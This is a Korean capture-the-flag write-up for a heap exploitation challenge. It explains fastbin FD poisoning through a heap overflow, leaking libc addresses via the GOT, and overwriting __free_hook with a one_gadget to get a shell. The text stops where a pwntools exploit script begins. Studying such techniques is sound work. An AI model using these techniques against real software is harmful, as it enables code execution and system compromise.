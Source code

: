 메모리는 다음과 같습니다.
```
*** heap [0x603000] ***
00000000  00 00 00 00  00 00 00 00  31 00 00 00  00 00 00 00  │····│····│1···│····│
00000010  0a 30 60 00  00 00 00 00  00 00 00 00  00 00 00 00  │·0`·│····│····│····│
00000020  00 00 00 00  00 00 00 00  00 00 00 00  00 00 00 00  │····│····│····│····│
00000030  00 00 00 00  00 00 00 00  31 00 00 00  00 00 00 00  │····│····│1···│····│
00000040  60 30 60 00  00 00 00 00  00 00 00 00  00 00 00 00  │`0`·│····│····│····│
00000050  00 00 00 00  00 00 00 00  00 00 00 00  00 00 00 00  │····│····│····│····│
00000060  00 00 00 00  00 00 00 00  31 00 00 00  00 00 00 00  │····│····│1···│····│
00000070  00 00 00 00  00 00 00 00  00 00 00 00  00 00 00 00  │····│····│····│····│
```

`fn_free(0)` 에서 남은 `FD`가 `heap + 0x10`에 남게 되고 메시지를 하나 더 생성하게 되면 띄어 쓰기 때문에 마지막 바이트가 `0a`로 되고 그 위의 바이트는 남게 됩니다.

페이지 (코드, 스택, 힙, 등등)는 0x1000 바이트로 정렬이 되기 때문에 힙의 베이스 주소가 `0x603000`임을 알 수 있습니다.

다음에는 libc 주소를 찾아야 합니다. libc 주소를 노출해야 하는데 `fast bin`의 `FD`는 항상 힙 영역을 가리키기 때문에 `main_arena`를 노출 할수가 없기 때문에 다른 곳에서 libc 주소를 노출해야 합니다.

이 때, 힙 오버플로우가 발생됨을 이용하여 libc 주소를 노출해도록 하겠습니다.

먼저 방금 할당한 `idx 0 : 0x603000`을 해제하면 현재 free list는 `0x603000` -> `0x603030` -> `0x603060` 이 되게 됩니다.

메시지 할당에서 힙 오버플로우를 이용하여 `0x603030`의 `FD`영역에 우리가 원하는 주소를 넣고 2번 할당하게 되면 2번째 할당되는 주소가 우리가 강제로 `FD`영역에 넣은 주소가 되게 됩니다.

약간 더 추가적으로 설명하자면
- `0x603000`에 할당 : 이 때 `0x603030`의 `FD` 영역을 "AAAAAAAA"로 덮음  
- 이 때, free list는 다음과 같음
  - `0x603030` -> `AAAAAAAA`
- 따라서, 다시 할당하게 되면 `0x603030`에 할당되고 그 다음에 할당은 `AAAAAAAA`에 할당이 되게 됩니다.

한 가지, 조건은 `AAAAAAAA` 의 주소 + 8 위치에 크기(0x31) 값이 존재해야 합니다. 만약, 적절한 크기가 존재하여 `AAAAAAAA`에 할당이 되면 `AAAAAAAA+0x10` 위치 부터 우리가 원하는 값을 쓸 수 있게 됩니다.

주소를 노출해야 하기 때문에 3번 메뉴인 메시지 보기메뉴가 어디서 참조 하는지 보고 이 곳을 수정할 수 있으면 libc주소를 노출 할 수 있을 것 같습니다.

메시지 보기는 `0x602a70[idx]`로 동작하는데 처음으로 잠시 돌아 가면 `0x602a40`위치에 패스워드를 넣을 수 있습니다. 따라서 패스워드 값에 힙 헤더를 넣고 이곳에 할당을 하면 `0x602a60` 에 위치한 메시지 크기 값들을 변경할 수 있고 이 값을 크게 변경하여 최종적으로 `0x602a70` 위치를 덮을 수 있습니다.

`0x602a70[0] : 0x602a40` 으로 두고, `0x602a70[1] : got@__libc_start_main`으로 하고 `fn_view(1)`을 이용하여 `__libc_start_main`의 주소를 구하고 `libc base` 주소 및 그 외 필요한 주소들을 구할 수 있습니다.

주소를 구한 뒤, 다시 메시지 포인터를 `__free_hook`으로 덮고 `fn_edit` 메뉴를 이용하여 `one_shot` 주소를 넣게 되면 `__free_hook`의 값이 `one_shot` 으로 변경되게 되고 존재하는 메시지 아무거나 해제를 하게 되면 쉘이 떨어지게 됩니다.

총 익스플로잇 코드는 다음과 같습니다.

```python
from pwn import *
import sys

context(arch='amd64', os='linux')

DEBUG = False
if len(sys.argv) > 1:
	DEBUG = True

def fn_leave(idx, n, msg, last=False):
	p.sendline("1")
	recv = p.recv()
	if DEBUG: print recv

	p.sendline(str(idx))
	recv = p.recv()
	if DEBUG: print recv

	p.sendline(str(n))
```